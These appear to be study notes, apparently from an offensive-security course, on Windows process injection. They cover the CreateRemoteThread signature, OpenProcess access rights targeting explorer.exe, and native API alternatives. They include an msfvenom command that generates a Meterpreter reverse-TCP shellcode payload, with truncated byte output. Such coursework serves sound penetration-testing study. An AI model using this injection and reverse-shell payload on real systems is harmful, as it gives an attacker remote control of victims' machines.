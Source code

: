 ### CreateRemoteThread

```c
HANDLE CreateRemoteThread(
  [in]  HANDLE                 hProcess,
  [in]  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  [in]  SIZE_T                 dwStackSize,
  [in]  LPTHREAD_START_ROUTINE lpStartAddress,
  [in]  LPVOID                 lpParameter,
  [in]  DWORD                  dwCreationFlags,
  [out] LPDWORD                lpThreadId
);
```
- Similarly, since _CreateThread_ does not support the creation of remote process threads, we must rely on the _CreateRemoteThread_ API instead.


# Process Injection in C\#

Note: Installed https://github.com/microsoft/CsWin32 into Win10 Visual Studio and System.Memory nuget packages

Errata/Update: 
- `dwDesiredAccess` has a 32 bit un-signed interger value and it establishes the access rights, there are hex values we can use for the access , the acess which we can use for all rights on a process is `PROCESS_ALL_ACCESS` which can be represented in hex `0x001FFFFF` 
- offsec guide uses `0x001F0FFF` which is for XP/2k3
- PROCCESS_ALL_ACCESS hex values (https://gist.githubusercontent.com/Rhomboid/0cf96d7c82991af44fda/raw/46b93265561362eb9d631b90a7731dc985ee378d/process_access_rights.txt)
- Note: PID 4804 below is for Explorer.exe will change each time Windows is run and the hex value for dwDesiredAccess is for win xp or 2k3
```csharp
IntPtr hProcess = OpenProcess(0x001F0FFF, false, 4804);
```
- For P/Invoke purposes, you should use `IntPtr.Zero` in place of `NULL`. Note that this is not equivalent to the C# `null`
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$(hostname -I | cut -d' ' -f1) LPORT=9001 EXITFUNC=thread -f csharp
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 511 bytes
Final size of csharp file: 2628 bytes
byte[] buf = new byte[511] {0xfc,0x48,0x83,0xe4,0xf0,0xe8,
...
0x6a,0x00,0x59,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0x89,0xda,0xff,
0xd5};

```


The low-level native APIs _NtCreateSection_, _NtMapViewOfSection_, _NtUnMapViewOfSection_, and _NtClose_ in ntdll.dll can be used as alternatives to _VirtualAllocEx_ and _WriteProcessMemory_.
